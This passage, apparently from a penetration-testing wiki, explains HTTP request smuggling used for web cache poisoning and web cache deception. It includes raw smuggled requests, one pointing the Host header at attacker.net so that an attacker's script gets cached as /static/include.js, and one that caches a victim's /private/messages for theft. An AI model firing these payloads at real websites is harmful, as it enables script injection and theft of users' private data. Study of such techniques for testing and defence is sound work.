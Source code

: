 0

GET /post/next?postId=3 HTTP/1.1  
Host: attacker.net  
Content-Type: application/x-www-form-urlencoded  
Content-Length: 10

x=1\`

Note how the embedded request is asking for `/post/next?postId=3` This request is going to be redirected to `/post?postId=4` and **will use the value of the Host header** to indicate the domain. Therefore, you can **modify the Host header** to point the attackers server and the redirect will use that domain \(**on-site redirect to open redirect**\).

Then, **after poisoning the socket**, you need to send a **GET request** to **`/static/include.js`**this request will be **poisoned** by the **on-site redirect to open redirect** request and will **grab the contents of the attacker controlled script**.

The next time that somebody ask for `/static/include.js` the cached contents of the attackers script will be server \(general XSS\).

### Using HTTP request smuggling to perform web cache deception <a id="using-http-request-smuggling-to-perform-web-cache-deception"></a>

> **What is the difference between web cache poisoning and web cache deception?**
>
> * In **web cache poisoning**, the attacker causes the application to store some malicious content in the cache, and this content is served from the cache to other application users.
> * In **web cache deception**, the attacker causes the application to store some sensitive content belonging to another user in the cache, and the attacker then retrieves this content from the cache.

In this variant, the attacker smuggles a request that returns some sensitive user-specific content. For example:

\`POST / HTTP/1.1  
Host: vulnerable-website.com  
Connection: keep-alive  
Content-Length: 43  
Transfer-Encoding: chunked

0

GET /private/messages HTTP/1.1  
Foo: X\`

If the **poison reaches a client that was accessing some static content** like `/someimage.png` that was going to be **cached**. The contents of `/private/messages` of the victim will be cached in `/someimage.png` and the attacker will be able to steal them.  
Note that the **attacker doesn't know which static content the victim was trying to access** so probably the best way to test this is to perform the attack, wait a few seconds and **load all** the static contents and **search for the private data**.

## Turbo intruder scripts
